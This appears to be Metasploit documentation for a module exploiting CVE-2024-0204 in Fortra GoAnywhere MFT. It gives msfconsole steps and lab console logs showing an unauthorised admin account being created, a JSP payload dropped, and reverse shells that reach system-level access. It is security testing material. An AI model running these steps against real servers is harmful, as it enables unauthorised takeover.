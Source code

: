 ## Vulnerable Application
This module exploits a vulnerability in Fortra GoAnywhere MFT that allows an unauthenticated attacker to
create a new administrator account. This can be leveraged to upload a JSP payload and achieve RCE. GoAnywhere
MFT versions 6.x from 6.0.1, and 7.x before 7.4.1 are vulnerable.

## Testing
To test use Fortra GoAnywhere 7.4.0. You will need to register for a trial from the Fortra website in order to
receive a 30 day trial license. The portal where you receive a trial license will only let you download the most
recent version of the product, so you will also need to have access to an installer for an older, vulnerable version
of the product to install and test on.

## Verification Steps
The exploits default target 0 (Automatic), will detect the target systems OS, so you do not need to specify the target
OS (Linux or Windows).

1. Start msfconsole
2. `use exploit/multi/http/fortra_goanywhere_mft_rce_cve_2024_0204`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set PAYLOAD java/jsp_shell_reverse_tcp`
6. `check`
7. `exploit`

## Options

### GOANYWHERE_INSTALL_PATH
This is the file system path to the GoAnywhere MFT installation. If the target is set to `Automatic`, then this path
will be discovered automatically.

## Scenarios
The Automatic target will detect the GoAnywhere MFT servers OS and select the correct target, or you can explicitly
select a target platform (Linux or Windows).

### Automatic (Linux)

```
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > show options

Module options (exploit/multi/http/fortra_goanywhere_mft_rce_cve_2024_0204):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.100.1.30      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-meta
                                         sploit.html
   RPORT      8001             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /goanywhere/     yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.1.10      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > check
[*] 10.100.1.30:8001 - The target appears to be vulnerable. GoAnywhere MFT 7.4.0
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > exploit

[*] Started reverse TCP handler on 10.100.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. GoAnywhere MFT 7.4.0
[*] Created account: uchvkpgt:ZindpxggDdvtrxu3
[*] Automatic targeting, detected OS: Linux
[*] Automatic targeting, detected install path: /opt/HelpSystems/GoAnywhere
[*] Dropped payload: /opt/HelpSystems/GoAnywhere/adminroot/EIlMlYdQ.jsp
[+] Deleted /opt/HelpSystems/GoAnywhere/adminroot/EIlMlYdQ.jsp
[!] Tried to delete /opt/HelpSystems/GoAnywhere/userdata/documents/uchvkpgt/EIlMlYdQ.jsp, unknown result
[+] Deleted /opt/HelpSystems/GoAnywhere/userdata/documents/uchvkpgt/
[*] Command shell session 4 opened (10.100.1.10:4444 -> 10.100.1.30:49572) at 2024-01-29 17:49:08 +0000

id
uid=1002(gamft) gid=1002(gamft) groups=1002(gamft)
pwd
/opt/HelpSystems/GoAnywhere
uname -a
Linux ubuntu-test-vm 6.5.0-15-generic #15~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 12 18:54:30 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 10.100.1.30 - Command shell session 8 closed.
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) >
```

### Automatic (Windows)

```
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > show options

Module options (exploit/multi/http/fortra_goanywhere_mft_rce_cve_2024_0204):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.100.1.20      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-meta
                                         sploit.html
   RPORT      8001             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /goanywhere/     yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.1.10      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > check
[*] 10.100.1.20:8001 - The target appears to be vulnerable. GoAnywhere MFT 7.4.0
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > exploit

[*] Started reverse TCP handler on 10.100.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. GoAnywhere MFT 7.4.0
[*] Created account: ckgbeqlo:ib0Qk3cMDvnaipTP
[*] Automatic targeting, detected OS: Windows
[*] Automatic targeting, detected install path: C:\Program Files\Fortra\GoAnywhere
[*] Dropped payload: C:\Program Files\Fortra\GoAnywhere\adminroot\b9OvIFdK.jsp
[!] Tried to delete C:\Program Files\Fortra\GoAnywhere\adminroot\b9OvIFdK.jsp, unknown result
[!] Tried to delete C:\Program Files\Fortra\GoAnywhere\userdata\documents\ckgbeqlo\b9OvIFdK.jsp, unknown result
[*] Command shell session 9 opened (10.100.1.10:4444 -> 10.100.1.20:57059) at 2024-01-29 16:31:01 +0000
[!] This exploit may require manual cleanup of 'C:\Program Files\Fortra\GoAnywhere\userdata\documents\ckgbeqlo\' on the target


Shell Banner:
Microsoft Windows [Version 10.0.20348.1607]
(c) Microsoft Corporation. All rights reserved.
-----
          

C:\Program Files\Fortra\GoAnywhere>whoami
whoami
nt authority\system

C:\Program Files\Fortra\GoAnywhere>exit
exit
[*] 10.100.1.20 - Command shell session 9 closed.
msf6 exploit(multi/http/fortra_goanywhere_mft_rce_cve_2024_0204) > 
```
